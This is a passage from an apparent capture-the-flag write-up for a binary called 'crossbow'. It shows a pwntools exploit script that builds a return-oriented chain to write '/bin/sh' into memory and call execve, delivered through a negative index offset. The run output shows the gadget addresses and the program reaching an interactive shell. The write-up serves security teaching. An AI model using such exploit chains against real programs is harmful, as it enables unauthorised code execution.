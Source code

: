 ```python
    print('[-] @g_pop_rsi       :', hex(g_pop_rsi))
    print('[-] @g_pop_rdx       :', hex(g_pop_rdx))
    print('[-] @g_pop_rax       :', hex(g_pop_rax))
    print('[-] @g_syscall       :', hex(g_syscall))

    writable_ea = 0x40E298

    binsh_packed = bytes(list(reversed(b"/bin/sh\x00")))

    payload = flat(
        p64(0xdeadbeef),
        p64(g_pop_rax), # rbp/rsp points here at the beginning
        b"/bin/sh\x00",
        p64(g_pop_rdi),
        p64(writable_ea),
        p64(g_mov_prdi_rax),
        # execve ropchain
        p64(g_pop_rsi),
        p64(0),
        p64(g_pop_rdx),
        p64(0),
        p64(g_pop_rax),
        p64(0x3b),
        p64(g_syscall),
    )

    off_to_rbp_ptr = -2

    input('type enter to exploit')
    p.recvuntil(b'target to shoot: ')
    p.sendline(str(off_to_rbp_ptr).encode())

    input('type enter to continue')

    p.sendline(payload)

    p.interactive()
```

Running it allows us to get the flag:
```shell
python3 exploit.py -b ./crossbow local
[+] Starting local process './crossbow': pid 132625
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
[*] Loaded 57 cached gadgets for './crossbow'
[+] Gadgets:
[-] @g_pop_rdi       : 0x401d6c
[-] @g_pop_rsi       : 0x40566b
[-] @g_pop_rdx       : 0x401139
[-] @g_pop_rax       : 0x401001
[-] @g_syscall       : 0x404b51
type enter to exploit
type enter to continue
[*] Switching to interactive mode

[Sir Alaric]: Give me your best warcry!!

> 
```

[Sir Alaric]: That was quite a shot!!